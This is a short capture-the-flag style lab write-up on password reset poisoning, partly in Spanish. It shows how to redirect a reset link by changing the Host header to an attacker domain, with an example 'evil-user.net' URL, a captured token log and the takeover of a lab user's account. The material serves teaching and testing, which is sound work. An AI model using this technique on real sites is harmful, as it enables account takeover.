 ## How to construct a password reset poisoning attack

If the URL that is sent to the user is dynamically generated based on controllable input, such as the Host header, it may be possible to construct a password reset poisoning attack as follows:

1. The attacker obtains the victim's email address or username, as required, and submits a password reset request on their behalf. When submitting the form, they intercept the resulting HTTP request and modify the Host header so that it points to a domain that they control. For this example, we'll use `evil-user.net`.
2. The victim receives a genuine password reset email directly from the website. This seems to contain an ordinary link to reset their password and, crucially, contains a valid password reset token that is associated with their account. However, the domain name in the URL points to the attacker's server:

`https://evil-user.net/reset?token=0a1b2c3d4e5f6g7h8i9j`
3. If the victim clicks this link (or it is fetched in some other way, for example, by an antivirus scanner) the password reset token will be delivered to the attacker's server.
4. The attacker can now visit the real URL for the vulnerable website and supply the victim's stolen token via the corresponding parameter. They will then be able to reset the user's password to whatever they like and subsequently log in to their account.


Cambiamos la cabecera host de la petición por nuestro dominio  del exploit server, cuando la víctima clique nos llega lo siguiente : 

`10.0.4.72       2024-11-21 18:23:38 +0000 "GET /forgot-password?temp-forgot-password-token=jgzq496oxk077jcaa624cr9gdbysxopn HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"`

Accedemos al dominio real /forgot-password?temp-forgot-password-token=jgzq496oxk077jcaa624cr9gdbysxopn y cambiamos la contraseña de carlos

